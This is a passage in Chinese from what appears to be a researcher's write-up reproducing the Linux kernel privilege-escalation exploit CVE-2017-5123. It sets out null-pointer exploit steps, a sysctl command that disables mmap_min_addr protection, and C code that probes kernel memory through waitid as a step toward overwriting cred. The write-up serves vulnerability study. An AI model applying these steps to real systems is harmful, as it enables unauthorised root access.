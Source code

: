 **利用步骤**：

- （1）0地址处放置shellcode，也即`jmp 0x8`, 跳转到 `get_root()`；
- （2）waitid触发漏洞，修改 `*have_canfork_callback` 的第1字节为 0x11；
- （3）调用 fork, 会调用未初始化的 `cgroup_subsys->can_fork` , 执行0地址处的代码。

**问题**：由于内核从2.6.22版本开始，可以使用sysctl设置`mmap_min_addr`来防止用户层映射0地址。从Ubuntu 9.04开始，`mmap_min_addr`设置被内置到内核中(x86为64k，ARM为32k)。只有root用户才能做0地址映射（`mmap()` -> `do_mmap()` -> `get_unmmapped_area()` -> `cap_capable()`会检查进程的权限）。需在内核启动脚本中调用`$ sysctl -w vm.mmap_min_addr=0`关闭该保护。

**测试截图**：exp程序见`exp_null_ptr.c`。感觉利用成功了，但只要执行命令就会报错`BUG: unable to handle kernel NULL pointer dereference`。和 [这里](https://x3h1n.github.io/2019/12/30/CVE-2017-5123%E5%A4%8D%E7%8E%B0/) 的问题一样，原因不明。

![1-result](\images\posts\CVE-2017-5123\1-result.png)



#### 2. 方法二 ：null任意写覆盖cred提权 

参考 [Exploiting CVE-2017-5123](https://reverse.put.as/2017/11/07/exploiting-cve-2017-5123/)

**局限**：需要猜测cred地址的范围，实际上有不确定性。

**内存探测**：`waitid()`在非法内存访问时不会崩溃，而是返回错误代码，初衷是为了避免DoS攻击。基于此，也可以进行内存的爆破or探测。（-EFAULT） 

```c
// 内存探测，检查内核哪些地址是有效的
for(i = (char *)0xffff880000000000; ; i+=0x10000000) {
    pid = fork();
    if (pid > 0) 
    {
        if(syscall(__NR_waitid, P_PID, pid, (siginfo_t *)i, WEXITED, NULL) >= 0) 
        {
            printf("[+] Found %p\n", i);
            break;
        }
    }
    else if (pid == 0)
        exit(0);
}
```
